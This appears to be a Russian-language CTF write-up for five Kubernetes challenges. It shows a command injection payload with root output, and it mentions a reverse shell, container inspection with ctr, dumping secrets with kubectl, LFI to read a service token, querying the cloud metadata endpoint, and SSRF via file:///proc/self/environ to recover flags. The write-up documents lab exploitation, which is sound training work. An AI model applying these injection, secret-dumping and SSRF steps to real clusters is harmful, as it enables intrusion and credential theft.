


## K8S WRITEUP

### 1. Intern Man

На сайте найдем command injection

`127.0.0.1;id` выведет

```
Response Output
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.033 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms --- 127.0.0.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 17ms rtt min/avg/max/mdev = 0.032/0.032/0.033/0.005 ms uid=0(root) gid=0(root) groups=0(root)
```

Провалимся в машину с помощью command injection + reverse shell

Изучая машину с ctr, можно найти параллельно запущенные контейнеры в namespace k8s.io
Соберем информацию о них и в одном из контейнеров найдем флаг.

```
root@health-check-deployment-754cc8b49f-qk4w8:/tmp/.val/bin# ./ctr --namespace=k8s.io c info 8397cd2b3280229b2a7bad988fc7e2e63300aa609740c555869082f9e3685bb0 | grep deteact
<e2e63300aa609740c555869082f9e3685bb0 | grep deteact         
                "intern_secret=deteact{c424c8ff2c020392c3ca26ab689a36a4}",
```

### 2. Intern Man 2

Провалимся в машину с помощюю reverse shell

Прочитав secrets с помощью kubectl найдем флаг
```
root@test-pod:~# ./kubectl get secrets -o yaml
./kubectl get secrets -o yaml
apiVersion: v1
items:
- apiVersion: v1
  data:
    username: ZGV0ZWFjdHs4OTNiZmEwZWIzNDIwNmQ0NmMxMDg2ZTc1OTY5NWEwOH0=
  kind: Secret
  metadata:
    annotations:
      kubectl.kubernetes.io/last-applied-configuration: |
        {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"secret-basic-auth","namespace":"default"},"stringData":{"username":"deteact{893bfa0eb34206d46c1086e759695a08}"}}
    creationTimestamp: "2023-04-03T10:19:36Z"
    name: secret-basic-auth
    namespace: default
    resourceVersion: "631"
    uid: 71876c7b-1dd5-4e34-b841-603e73df66d8
  type: Opaque
kind: List
metadata:
  resourceVersion: ""
  ```

### 3. PROXY

Найдем на сайте LFI.
Прочитав токен, который хранится по дефолтному пути, найдем флаг



`"deteact{ec5eb1a21d6d40d93bca3281623c65ae}\n"`

### 4. METAFIX

Перебрав дефолтные ip адреса для облачных k8s, подойдет сервер от Azure 169.254.169.254
Изучая доступные директории и страницы найдем флаг по адресу latest/secrets/info



### 5. New Application

Читая файлы переменного окружения в одном из них найдем адрес, по которому будет доступен флаг

`"endpoint":"file:///proc/self/environ"`

`"endpoint":"http://10.96.154.174:5678`

`"deteact{8ce952138744a6d04b3bd8359dab2a08}\n"`
